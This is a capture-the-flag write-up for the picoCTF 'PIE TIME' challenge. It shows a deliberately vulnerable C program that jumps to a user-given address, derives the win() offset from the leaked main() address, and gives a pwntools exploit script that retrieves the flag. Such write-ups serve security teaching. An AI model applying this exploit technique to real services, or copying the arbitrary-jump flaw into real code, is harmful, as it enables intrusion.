

# PIE TIME

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

First of all, run the command 
1. checksec vuln 

to check if the PIE is enabled.
Addresses in PIE are relative - that is, despite the binary being loaded into a random address, the offsets between parts of the binary will remain the same.
With this knowledge, 
2. run the file vuln inside Binary Ninja



You can see that the address of the function `win()` is at 0x000012a7 and the `main()` at 0x0000133d. Given that the offset remains the same at each running instance, we compute it:
3. Offset = main() address - win() address = 0x96

This means that the win address will always be at: 
4. win() address = main() address - 0x96

Now, we can write the python script in order to get the flag.<br>
Firstly, we set up the connection:

```
hostname = "rescued-float.picoctf.net"  
port = 58193  
p = remote(hostname, port)
```
We wait for the server to respond with "main: ", that will preceed the main() address:
```
p.recvuntil(b"main: ") 
```
Then, we compute the win() address with the computed formula and send it to the server:
```
main_addr = int(p.recvline().strip(), 16)  
win_addr = main_addr - 0x96  
p.sendline(hex(win_addr))  
```
The line that follows the server output "You won" will contain the flag, so we save it in a variable and print it:
```
p.recvuntil(b"You won!\n")  
flag = p.recvline()
print(flag.strip().decode("utf-8"))  
```
We can then close the connection:
```
p.close()
```